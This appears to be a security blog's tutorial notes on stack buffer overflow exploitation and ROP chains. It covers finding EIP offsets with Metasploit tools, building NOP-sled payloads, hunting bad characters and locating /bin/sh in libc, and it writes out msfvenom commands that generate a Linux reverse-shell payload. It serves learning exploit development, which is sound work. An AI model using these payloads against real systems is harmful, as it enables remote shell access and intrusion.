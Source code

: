 ```yaml
---
title: Notes | Reverse | BOF
author: BatBato
date: 2022-12-07
categories: [Notes, Reverse, BOF]
tags: [Reverse, BOF]
permalink: /Notes/Reverse/BOF
---
```


# Buffer Overflow

From here I'm assuming that you already know a bit about ASM (```mov```, ```call```, ```lea```...). If you don't there is a good introduction in [here](https://cloud.isi.insa-cvl.fr/s/qWmEqLkSGXnkLZn).

So basically, the buffer overflow attack appears when you don’t pay attention to the user input and that he gives you a greater input that what you expected. This surplus will overwrite the memory.

We need to keep in mind the endianness of the program. If for example, we have a word ```\xAA\xBB\xCC\xDD``` at the address ```0xffff0000```, then depending on the endianness the word will be read differently :

| Memory Address | 	0xffff0000 | 	0xffff0001 | 	0xffff0002 | 	0xffff0003 |
|---|---|---|---|---|
| Big-Endian 	|AA | 	BB | 	CC | 	DD |
| Little-Endian | 	DD | 	CC | 	BB | 	AA |

What we would like to do is to give a greater input than the one expected so that we overwrite the return address of the program. Thanks to that, we will be able to call another function or something else in the memory. Here is an image that shows basically what we want to do :

![image](https://user-images.githubusercontent.com/73934639/206201166-ef62b19e-10da-4ae2-a3b5-d7139375b54f.png){: width="300" height="100" }

At first, we will try to find the main function and its address. For that, we can use gdb or radar2. I will continue this explanation using gdb syntax but it is basically the same on r2. We will run the program until we get to the input part, when we get there we can input a large number of ```A``` and if we inputed enought A, we should get a :
```sh
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The ```41``` are the hexadecimal value of ```A```. Now that we know that we overwrote the return address we need to find how much ```A``` we need to input before getting a segmentation fault. We can use the ```pattern_offset``` tool of ```metasploit``` to generate a random string of certain length so we don't have a bunch of ```41``` in the memory. We can use it as follows:
```sh
pattern_create.rb -l 1200
```

> This program should be in the ```metasploit-framework``` folder. On my computer it is located at ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb```.
{: .prompt-info }

We can use the gdb command to find the address of ```EIP``` (respectively ```RIP``` depending on the architecture) :
```sh
info registers eip
```

With this information you can use the metasploit ```pattern_offset.rb``` tool to find the exact offset. Or if you are good in ASM you can look what is the length of the word you give in input. You can use the tool as follows (where 0xaabbccdd is the address of EIP you found earlier):
```pattern_offset.rb -q 0xaabbccdd```

> You can find ```pattern_offset.rb``` in ```/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb```.
{: .prompt-info}

We will assume that we have an offset of 64 for the rest of the demonstration. Now we can run the program again with the offset length as input and 4 bytes of "B"s. 4 is the size of the return address (here in 32 bi ELF). Here is an example:
```sh
"A" * 64 + "B"*4
```

You can use this python command to generate your strings: 
```sh
python -c "print 'A' * 64 + 'B' * 4"
```

With this input we should only have the 4 "B"s as EIP address like:
```sh
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

For this first part of BOF, we will use [msfvenom](https://www.kali.org/tools/metasploit-framework/#msfvenom). To create a reverse shell payload, we can use the following command:
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IP lport=PORT --platform linux --arch x86 --format python
```

> Don't forget to replace ```IP``` with yours. Same for the ```PORT```.
{: .prompt-tip}

Now if this is too long you can change it to a simple shell instead of a reverse one.
The composition of our final payload will be:
```python
Buffer = "C" * (64 - 10 - 40 - 4) = 10
NOPs = "\x90" * 10
Shellcode = "A" * 40
EIP = "B" * 4
```

> ```\x90``` is the hexadecimal value of the ```NOP``` instruction.
{: .prompt-tip}

## Bad Characters

Your payload may not work because of some ```Bad Characters```. They are generaly ```\x00``` (Null byte),```\x0A``` (Line Feed),```\x0D``` (Carriage Return),```\xFF``` (Form Feed).

Here is the list of all chars from ```\x00``` to ```\xFF```:
```python
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

You can remove the NOPs and the shellcode from the previous payload and replace them by this list. If the list is too long (256 chars) you can do it multiple time with different parts of the list. Now you can set a breakpoint just after the input so that we can analyse the memory. When the program hits the breakpoint, we can look at the ```EIP``` like that ```x/2000xb $esp+500```. We will see a bunch of ```0x43``` (our "C"s). At the end of our "C"s we should see the characters of our previous list. If a character isn't printed out, it means that it is a bad character. You can repeat those steps until you removed all the bad characters.

> Don't forget to change the number of "C"s when you remove a bad character from the list. The number of "C"s should increase by one each time you remove a bad character.
{:.prompt-warning}

You can now use the previous ```msfvenom``` command specifying all bad characters:
```sh
msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT  --arch x86 --platform linux --format python --bad-chars "\x00\x09\x0a"
```

## Identification of the Return Address

Now we should replace our 4 "B"s by the address of our shellcode. For that we need to analyse the memory. We can do so like:
```sh
x/2000xb $esp+1400
```

We will see where our NOPs (```0x90```) end and where our shellcode begins. For example, if the NOPs end at ```0xffffaabb```, then we will replace our 4 "B"s by ```\xbb\xaa\xff\xff```. To be more accurate we can choose an address that is full of NOP a bit before ```0xffffaabb```like ```0xffffaaaa``` for example.

# ROP chain attack

A ROP (Return-Oriented Programming) chain is a technique used in exploitation of memory safety vulnerabilities, where an attacker controls the flow of execution by chaining together small code snippets (gadgets) found within the program itself or its libraries.

The attacker constructs a ROP chain by overwriting the return address of a function with the address of a ROP gadget, which performs some actions (such as setting up a register or stack) before returning to the next gadget in the chain. The attacker repeats this process until the final gadget transfers control to the attacker's payload (such as executing shellcode).

You can find [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/Notes/Reverse/exploit.py) a code for a basic ```ROP chain attack```. As you can see, I used as offset ```0x40+4```. The ```0x40``` can be found in the code using ```gdb``` here ```add    esp,0x4``` and the ```+4``` is because of the file is a ```ELF 32-bit``` format.

> To know if the file is either a 32 or 64 bit ELF executable you can use the ```file``` Linux command like:
```file VULN_EXECUTABLE```
{: .prompt-tip }


You can find the ```system``` call and the address of ```/bin/sh``` by using the search command like ```search /bin/sh``` or by using ```info proc mapping``` to print the range of addresses of your program and the libc. After using the ```info proc mapping```, you can use the find command as follows ```find 0xf7c00000, 0xf7e22000, "/bin/sh"```. The two addresses you see are the range of addresses where we want to search the ```/bin/sh```.

> It may be better to look only on addresses of the program and after that, only on the libc addresses. Searching in both range of addresses may cause errors.
{: .prompt-tip }

> You may need to use ```return to libc``` to recover those addresses if the program uses ```Data Execution Prevention``` (DEP) and ```Address Space Layout Randomization``` (ASLR).
{: .prompt-tip }

You can also look at this really great [video](https://www.youtube.com/watch?v=i5-cWI_HV8o) of John Hammond about ROP chain attack. He explains more in detail how to use the ```return to libc```.
